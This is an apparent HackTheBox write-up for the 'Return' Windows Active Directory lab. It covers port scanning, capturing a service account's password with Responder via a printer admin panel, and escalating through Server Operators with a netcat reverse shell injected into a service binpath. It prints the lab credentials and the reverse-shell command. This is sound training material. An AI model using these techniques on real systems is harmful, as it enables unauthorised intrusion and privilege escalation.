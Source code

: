 ```yaml
---
title: "Return"
date: 2024-01-23
categories: HTB
tags: ["ctf", "return", "penetration testing", "htb", "cybersecurity", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Return

# Return
OS: Windows(AD)
Difficulty: Easy
Date: 2025-03-31
# Credentials
```text
svc-printer : 1edFg43012!!
```

# Summary


# Credentials
| username    | password     | hash | source |
| ----------- | ------------ | ---- | ------ |
| svc-printer | 1edFg43012!! |      |        |
|             |              |      |        |
 
# Todo 
- [ ] 

# Enumeration
## Nmap
```sh
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-31 05:45:07Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

- [ ] 80
	- [ ] directory fuzzing
	- [x] web
- [x] SMB
- [ ] LDAP
- [ ] 464
- [ ] 593
- [ ] 636
- [ ] 3269
- [ ] 5985

## 80
![screenshot](/assets/images/return1.png)

![screenshot](/assets/images/return2.png)

Add my IP address to Server Address

```sh
sudo responder -I tun0
```

![screenshot](/assets/images/return3.png)

## SMB
![screenshot](/assets/images/return4.png)

- [x] add `return.local` to `/etc/hosts`
- [ ] spider_plus

```sh
smbclient.py '[domain]/[user]:[pass]@[ip/host]' -k -no-pass - Kerberos auth

smbclient 'return.local/svc-printer:1edFg43012!!' -k -no-pass -Kerberos auth
```
### Share Enum
#### ADMIN$
![screenshot](/assets/images/return5.png)
# Foothold
Evil-winrm as svc-printer
![screenshot](/assets/images/return6.png)

# Privilege Escalation
runphp.cmd
![screenshot](/assets/images/return7.png)
![screenshot](/assets/images/return8.png)

Server Operators 

There may be others of interest, but Server Operators jumps out immediately. [This group](https://ss64.com/nt/syntax-security_groups.html#:~:text=A%20built%2Din%20group%20that,and%20shut%20down%20the%20computer.) can do a lot of things:

- A built-in group that exists only on domain controllers. 
- By default, the group has no members. 
- Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer. 
- Default [User Rights](https://ss64.com/nt/ntrights.html): Allow log on locally: SeInteractiveLogonRight Back up files and directories: SeBackupPrivilege Change the system time: SeSystemTimePrivilege Change the time zone: SeTimeZonePrivilege Force shutdown from a remote system: SeRemoteShutdownPrivilege Restore files and directories SeRestorePrivilege Shut down the system: SeShutdownPrivilege

```sh
# install windows binaries
sudo apt-install windows-binaries
# copy nc to pwd
sudo cp /usr/share/windows-resources/binaries/nc.exe .
```

Upload nc.exe to the target device

![screenshot](/assets/images/return9.png)

```sh
*Evil-WinRM* PS C:\programdata> sc.exe config VSS binpath="C:\programdata\nc.exe -e cmd 10.10.14.7 443"
```

![screenshot](/assets/images/return10.png)

![screenshot](/assets/images/return11.png)
